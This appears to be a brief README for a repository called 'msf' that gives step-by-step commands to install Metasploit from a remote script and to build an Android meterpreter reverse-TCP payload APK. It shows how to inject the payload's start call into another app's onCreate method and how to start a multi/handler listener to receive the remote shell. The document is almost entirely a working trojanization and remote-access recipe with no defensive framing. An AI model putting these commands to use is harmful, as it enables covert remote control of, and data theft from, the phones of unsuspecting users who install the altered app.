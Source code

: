 # msf
Script to install Metasploit on Linux Terminal

#========= Open GCS Terminal ==========#

#========= Install Metasploit ==========#

$ curl https://raw.githubusercontent.com/TdimMax/msf/main/metasploit

$ chmod 755 metasploit

$ bash metasploit

#========= Create APK Payload ==========#

$ msfvenom -p android/meterpreter/reverse_tcp LHOST=host  LPORT=8080 R > /home/hack/payload.apk

#========== Inject payload on Android Application =========#

</> onCreate

</> invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V

#========= Start Exploitation ==========#

$ msfconsole

$ use exploit/multi/handler

$ set PAYLOAD android/meterpreter/reverse_tcp

$ set LHOST host

$ set LPORT 8080

$ exploit

#===================#
